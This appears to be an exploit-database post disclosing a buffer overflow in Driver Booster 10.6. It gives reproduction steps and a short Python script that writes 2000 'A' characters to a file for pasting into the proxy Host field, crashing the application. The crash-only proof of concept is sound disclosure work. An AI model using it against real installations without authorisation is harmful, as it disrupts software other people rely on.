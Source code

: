 ```yaml
---
layout: post
title: Driver Booster 10.6 - Buffer Overflow (PoC)
date: 2023-09-10
category: exploit
---
```


# Exploit Title: Driver Booster 10.6 - Buffer Overflow (PoC)
# Discovered by: Ahmet Ümit BAYRAM
# Discovered Date: 10.09.2023
# Vendor Homepage: https://www.iobit.com
# Software Link: https://cdn.iobit.com/dl/driver_booster_setup.exe
# Tested Version: 10.6 (latest)
# Tested on: Windows 2019 Server 64bit

### Steps to Reproduce

1. Open Driver Booster.
2. Click on **Settings** from the hamburger menu on the top left.
3. In the **Network** tab, check the **Customize proxy** box.
4. Paste the contents of `poc.txt` into the **Host** section and save.
5. The application crashes due to a buffer overflow.

### Proof of Concept (PoC)

The following script generates a `poc.txt` file containing 2000 "A" characters. When loaded into the **Host** field in Driver Booster, it causes the application to crash.

```python
#!/usr/bin/python

poc = 'A' * 2000

try:
    file = open("poc.txt", "w")
    file.write(poc)
    file.close()
    print("POC is created")
except Exception as e:
    print("POC is not created:", e)
